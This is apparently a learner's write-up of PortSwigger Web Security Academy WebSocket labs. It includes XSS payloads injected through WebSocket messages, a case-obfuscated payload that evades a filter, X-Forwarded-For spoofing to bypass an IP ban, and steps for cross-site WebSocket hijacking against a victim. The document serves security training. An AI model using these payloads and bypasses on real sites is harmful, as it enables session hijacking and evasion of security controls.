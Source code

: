 ### Manipulating WebSocket messages to exploit vulnerabilities

### Lab: Manipulating WebSocket messages to exploit vulnerabilities
Interesting: browser HTMLEncodes our input but server does not, we can intercept (in bupr) and modify out input which later might result in xss

So we send the following to the server:
```bash
{"message":"<img src=1 onerror='alert(1)'>"}
```
And we get alert(1) executed

## Manipulating the WebSocket handshake to exploit vulnerabilities
Some WebSockets vulnerabilities can only be found and exploited by manipulating the WebSocket handshake. These vulnerabilities tend to involve design flaws, such as:
- Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities 
This online shop has a live chat feature implemented using WebSockets.
It has an aggressive but flawed XSS filter.
To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 

So we try to send:
```bash
{"message":"<img src=1 onerror='alert(1)'>"}
```
And we get back:
```bash
{"error":"Attack detected: Event handler"}
```
The attack has been blocked, and that our WebSocket connection has been terminated.

So we try to send another websocket handshake request to the server, to initiate another websocket connection:
```bash
GET /chat HTTP/2
Host: 0a3300a703cf7ada809303a800d0003d.web-security-academy.net
Sec-Websocket-Version: 13
Origin: https://0a3300a703cf7ada809303a800d0003d.web-security-academy.net
Sec-Websocket-Key: bANkYjofdpoWYUmEAgpByw==
Cookie: session=8CtoWqst0hEW3Ea5Xc64sg4XObNcaf78
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Upgrade: websocket
```
But we get back:
```
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 29

"This address is blacklisted"
```
BTW when we click "Reconnect" in Burp repeater - it also sends the same http handshake req that is shown above and we also observe that the connection attempt fails because our IP address has been banned, i.e. we get the same 401 Unauthorized response.

The solution is simple, we can use `X-Forwarded-For` to spoof our IP.
So we go to repeater, click `Reconnect` and add the following header:
```
X-Forwarded-For: 1.1.1.1
```
We're connected, let's now obfuscate our xss payload:
```bash
<img src=1 oNeRrOr=alert`1`>
```
And success!

### Cross-site WebSocket hijacking
- Click "Live chat" and send a chat message.
- Reload the page.
- In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server
- In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
- Right-click on the handshake request and select "Copy URL".
- Substitute `https://` with `wss://`
```
wss://0aa9007d0435e67f825e745000ac0092.web-security-academy.net/chat
```
Go to your server and paste the url above into the `new Websocket(<url>)`

Deliver exploit (ws_hijack.html) to victim

> Note that these messages may not be received in the correct order

